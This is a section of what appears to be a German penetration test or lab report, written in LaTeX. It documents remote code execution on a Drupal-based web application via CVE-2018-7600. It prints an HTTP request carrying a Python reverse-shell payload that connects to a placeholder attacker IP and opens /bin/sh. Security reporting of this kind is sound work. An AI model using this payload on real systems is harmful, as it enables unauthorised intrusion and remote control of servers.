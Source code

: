 
\section{\makecvssbadge Remote Code Execution}

\subsection*{Proof of concept}
Ein bekannter Exploit mit der CVE-Nummer CVE-2018-7600 erlaubt die Ausführung von Code auf einem Drupal-System. Dadurch kann direkt eine Reverse Shell auf dem System erstellt werden. Der Python Code für diesen Exploit ist in \autoref{listing:appendix:pilzboard_RCE} gelistet. Der HTTP-Request des Exploits kann mit einem Tool wie Burpsuite abgefangen und die Payload angepasst werden. Die Playoad zum Starten einer Reverse Shell ist in \autoref{listing:pilzboard:reverseshell} aufgeführt. Ein Nachweis ist in \autoref{fig:05_pilzboard_proof} dargestellt.


\begin{listing}[!ht]
\begin{verbatim}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.122
[...]
'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket. SOCK_STREAM)%3bs.connect(("<Angreifer-IP>",9001))%3bos.dup2(s.fileno(),0)%3b+os.dup2( s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b''
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pilzboard:reverseshell}
\end{listing}
\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/05_pilzboard_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard_proof}
\end{figure}

